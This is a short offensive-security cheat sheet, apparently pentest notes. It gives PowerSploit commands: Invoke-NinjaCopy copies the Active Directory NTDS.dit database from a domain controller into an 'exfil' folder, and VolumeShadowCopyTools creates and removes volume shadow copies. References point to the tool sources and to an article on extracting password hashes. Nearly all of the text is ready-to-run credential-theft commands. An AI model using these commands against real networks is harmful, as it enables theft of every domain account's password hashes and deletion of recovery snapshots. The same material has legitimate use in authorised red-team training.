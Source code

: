 # PowerSploit

## Invoke-NinjaCopy

### Extract Shadow File

- Import Module

`PS C:\> Import-Module .\Invoke-NinjaCopy.ps1`

- Extract shadow copy locally

```
PS C:\> Invoke-NinjaCopy [-ComputerName "<domain_controller_IP>"] -Path "C:\Windows\NTDS\NTDS.dit" -LocalDestination "C:\exfil\ntds.dit"
```

- Extract shadow copy remotely

```
PS C:\> Invoke-NinjaCopy -ComputerName "<domain_controller_IP>" -Path "C:\Windows\NTDS\NTDS.dit" -RemoteDestination "C:\exfil\ntds.dit"
```

## VolumeShadowCopyTools

### Extract Shadow File

```
PS C:\> Import-Module .\VolumeShadowCopyTools.ps1

PS C:\> New-VolumeShadowCopy -Volume C:\

PS C:\> Get-VolumeShadowCopy
```

- Remove volume shadow copy

```
PS C:\> Get-VolumeShadowCopy | Remove-VolumeShadowCopy

PS C:\> Remove-VolumeShadowCopy -DevicePath '\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>'
```

---
## References

- [PowerSploit: Invoke-NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1)

- [PowerSploit: VolumeShadowCopyTools](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/VolumeShadowCopyTools.ps1)

- [Netwrix: Extracting Password Hashes from the Ntds.dit File](https://blog.netwrix.com/2021/11/30/extracting-password-hashes-from-the-ntds-dit-file/)